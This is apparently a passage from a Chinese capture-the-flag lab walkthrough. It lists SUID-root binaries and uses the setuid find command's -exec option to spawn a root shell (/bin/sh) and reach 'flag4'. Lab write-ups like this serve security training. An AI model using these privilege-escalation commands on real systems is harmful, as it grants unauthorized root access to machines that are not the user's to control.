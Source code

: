 或者

```bash
find / -user root ‐perm ‐4000 ‐print 2>/dev/null；
```

```bash
find / -user root -perm -4000 -exec ls -ldb {} ；
```

![](https://z3.ax1x.com/2021/04/21/cbJK6e.png)

可以看到 find 本身就是 root 权限，可以用来提权，尝试用 find 执行命令

```bash
find / ‐name flag4 ‐exec "whoami" \；
```

> 注意‐name参数填写的文件名，是需要系统真实存在的

![](https://z3.ax1x.com/2021/04/21/cbYSAI.png)

接下来就可以愉快地用 find 提权

```bash
find / ‐name flag4 ‐exec "/bin/sh" \；
```

![](https://z3.ax1x.com/2021/04/21/cbYU4x.png)

Pwned！